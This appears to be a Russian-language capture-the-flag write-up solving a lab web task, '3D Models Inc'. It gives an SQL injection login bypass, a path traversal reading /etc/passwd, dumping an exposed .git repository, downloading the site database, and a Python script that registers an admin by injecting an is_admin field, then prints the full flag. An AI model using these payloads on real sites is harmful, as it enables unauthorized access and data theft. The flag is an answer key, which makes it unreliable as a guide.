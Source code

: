 # 3D Models Inc

***Описание***: Я, конееечно же, всё понимаю, но так бездарно вести разработку сайтов! Это надо уметь...

Ссылка: `http://localhost:43434`

Формат: EclipseCTF{...}

---
### Решение - Этап 1. Исследование ресурса

Переходим на сайт:

![ScreenShot](../screenshots/3D-models-inc-1.png)

Видим две формы - регистрация и авторизация. Логинов и паролей мы потенциально не знаем, но можно подобрать **Test:Test**, либо зарегистрироваться, либо войти через SQLi:

```
Логин: ' OR 1=1 --
Пароль: ' OR 1=1 --
(Доступны различные вариации, достаточно и просто в логин вставить нагрузку)
```

Таким образом, мы попадаем на главную страницу:

![ScreenShot](../screenshots/3D-models-inc-2.png)

### Решение - Этап 2. Ошибка в профиле и отображение страниц (Path Traversal)

Переходим во вкладку "**Profile**":

![ScreenShot](../screenshots/3D-models-inc-3.png)

>**TestUserName** - первый пользователь в таблице с пользователями внутри сервиса, поэтому при эксплуатации SQLi, мы получаем доступ относительно этого пользователя

Замечаем, что присутствует ошибка, связанная с `session_start()`. При этом мы получаем сведения о расположении сайта внутри контейнера - `/var/www/html/content_blocks/profile_content.php`

Далее обращаем внимание на то, как подгружается страница `profile_content.php` в URL-адресе:

```
http://192.168.31.9:43434/home.php?view=profile_content.php
```

Параметр `?view=`. Интересно! А еще интереснее, что нашли `Path Traversal`. Убедимся в этом:

```
http://192.168.31.9:43434/home.php?view=../../../../etc/passwd
```

![ScreenShot](../screenshots/3D-models-inc-4.png)

Отлично! Но чем нам это может помочь? Если у вас получится докрутить до RCE - удачи, вы найдете новый вектор. Но, на мой взгляд, можно пойти по другому пути.

### Решение - Этап 3. Нахождение git-репозитория

Исследуем директории через `wfuzz`:

![ScreenShot](../screenshots/3D-models-inc-5.png)

При переходе на `database` обнаруживаем `Forbidden`. Но, удача! 200 на `.git/HEAD`:

![ScreenShot](../screenshots/3D-models-inc-6.png)

Используем `git-dumper` для того, чтобы выгрузить репозиторий:

```sh
git-dumper http://192.168.31.9:43434/.git/ ~/web-3d-models
```

![ScreenShot](../screenshots/3D-models-inc-7.png)

### Решение - Этап 4. Исследование git-репозитория

Переходим в папку с полученным репозиторием:

![ScreenShot](../screenshots/3D-models-inc-8.png)

Видим директорию `flag`. Забираем 2-ю часть флага:

![ScreenShot](../screenshots/3D-models-inc-9.png)

Далее нам надо найти 1-ю и 3-ю части флага. Заглянем в директорию с БД:

![ScreenShot](../screenshots/3D-models-inc-10.png)

Теперь мы знаем полный путь и название файла. Можно забрать сам файл, а можно и скачать напрямую:

```
http://192.168.31.9:43434/database/service-db.db
```

Открываем БД в DBBrowser:

![ScreenShot](../screenshots/3D-models-inc-11.png)

Вот и наша третья часть флага. Но где первая? Вопрос крайне интересный. Для этого нам необходимо немного исследовать исходники и понять один ключевой пробел в безопасности, а именно - скрытый параметр при создании пользователя:

![ScreenShot](../screenshots/3D-models-inc-12.png)

Иными словами, если нет передачи параметра `is_admin`, то он по умолчанию будет `False`. Но при регистрации мы можем передать этот параметр! Сплойт для создания админа:

```python
import requests
import os
import re
from bs4 import BeautifulSoup


sess = requests.Session()


def create_user_data():
	return [f"hacker-{os.urandom(8).hex()}", os.urandom(8).hex()]


creds = create_user_data()


# URL: http://localhost:1337/register.php
def register_admin_account(url, session, username, password):
	register_data = {
		"name": username,
		"username": username,
		"password": password,
		"is_admin": True,
		"register": "" # Да-да, тут нюанс!
	}

	register_resp = session.post(url, register_data)

	if (register_resp.status_code == 200):
		return f"[+] ADMIN Account was registered: {username} | {password}"
	else:
		return 0 


if __name__ == "__main__":
	print(register_admin_account("http://192.168.31.9:43434/register.php", sess, creds[0], creds[1]))
```

Запускаем:

![ScreenShot](../screenshots/3D-models-inc-13.png)

Проходим авторизацию с полученными данными:

![ScreenShot](../screenshots/3D-models-inc-14.png)

И вот она - последняя часть флага!

P.S. Я уверен в том, что таск можно решить и несколько иными способами на тех или иных этапах. Тут уже кто и как подходит к решению задачи! Так называемое "эталонное решение" представлено здесь

---

***Флаг***: `EclipseCTF{n0t_3v3n_gh0st5_4r3_th1s_3mpty}`